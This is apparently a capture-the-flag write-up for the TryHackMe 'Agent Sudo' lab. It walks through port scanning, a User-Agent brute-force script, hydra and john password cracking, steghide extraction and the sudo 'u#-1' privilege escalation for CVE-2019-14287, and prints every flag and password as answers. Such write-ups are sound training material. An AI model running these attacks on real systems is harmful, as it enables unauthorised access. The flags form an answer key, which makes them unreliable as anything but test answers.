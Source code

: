 # Agent Sudo
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Enumeration
### How many open ports?
`nmap -sC -sV -p- -vv $ip`

```
Discovered open port 21/tcp on 10.10.108.240
Discovered open port 80/tcp on 10.10.108.240
Discovered open port 22/tcp on 10.10.108.240
```
**Answer: 3**

### How you redirect yourself to a secret page?
Website running on port 80 tells us to use our "codename" as the "user-agent" to access the site.

**Answer: user-agent**

### What is the agent name?
I attempt to make a request using `curl -A "R" -L $ip` to attempt to use Agent R's codename as the user-agent. The site responds with  
_"What are you doing! Are you one of the 25 employees? If not, I going to report this incident"_

This tells me that the employees codenames are all single letters of the alphabet due to "R" and the "25 employees", so I write a script in Python to handle this for me.

```python
#!/usr/env/python3
import requests
from os import getenv

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'

target = getenv("ip")

for c in chars:
	r = requests.get(f"http://{target}/", headers={"user-agent": f"{c}"})
	if "Use your own <b>codename</b> as user-agent to access the site" not in r.text:
		print(f"user-agent: {c}")
		print(r.text)
```

The page responded with something different when the user-agent was set to "C" along with some other information.

Agent C's name is Chris, he uses a weak password and he has something to tell Agent J

**Answer: chris**

## Hash Cracking & Brute-force
###FTP password
`hydra -l chris -P /usr/share/wordlists/rockyou_utf8.txt $ip ftp`

FTP Password: crystal

**Answer: crystal**

### Zip file password
I downloaded the files available on FTP using Chris's account and checked them with binwalk to find hidden files.

cutie.png contained a zip file called "8702.zip" which I attempted to crack:

`zip2john 8702.zip > zip.hash && john zip.hash`

Archive password: "alien"

**Answer: alien**

### Steg password
The zip file once unzipped contained a message which contained a code: 'QXJlYTUx' which cyberchef recognised as Base64.

When decoded this becomes "Area51"

**Answer: Area51**

### Who is the other agent (in full name)?
I ran steghide against cute-alien.jpg using `steghide info cute-alien.jpg` and providing the passphrase.

After examining the contents of the extracted information I found a message.txt file containing the agents full name, "James" and a note saying that his password was "hackerrules!"

**Answer: james**

### SSH password
**Answer: hackerrules!**

## Capture the user flag
### What is the user flag?
I logged into james' user via SSH `ssh james@$ip`
`cat /home/james/user_flag.txt` gave the output "b03d975e8c92a7c04146cfa7a5a313c7"

**Answer: b03d975e8c92a7c04146cfa7a5a313c7**

###What is the incident of the photo called?
There was an image within James' home directory so I used a reverse image search and found the following [article](https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment) 

**Answer: Roswell alien autopsy**

## Privilege Escalation
### CVE number for the escalation 
When logged in via SSH as james, I check the privileges I have by running `sudo -l` and get the output of `(ALL, !root) /bin/bash`. This meas we are not allowed to run bash as a root user, however the ALL flag means we can run it as any user. So confused I googled "(ALL, !root) /bin/bash" and the very first response was an exploit by exploit-db.com

[CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

**Answer: CVE-2019-14287**

### What is the root flag?
After looking at the script on exploit-db I identified that the python script was just getting the location of the binary and then running `sudo -u#-1 [binary path]` so I replace the binary path with /bin/bash to get `sudo -u#-1 /bin/bash` and I have elevated to the root user on the system.

`cat /root/root.txt`

**Answer: b53a02f55b57d4439e3341834d70c062**

### (Bonus) Who is Agent R?
Aside from using the author of the room. The root.txt file contains a sign off message from Agent R

> By, DesKel a.k.a Agent R

**Answer: DesKel**
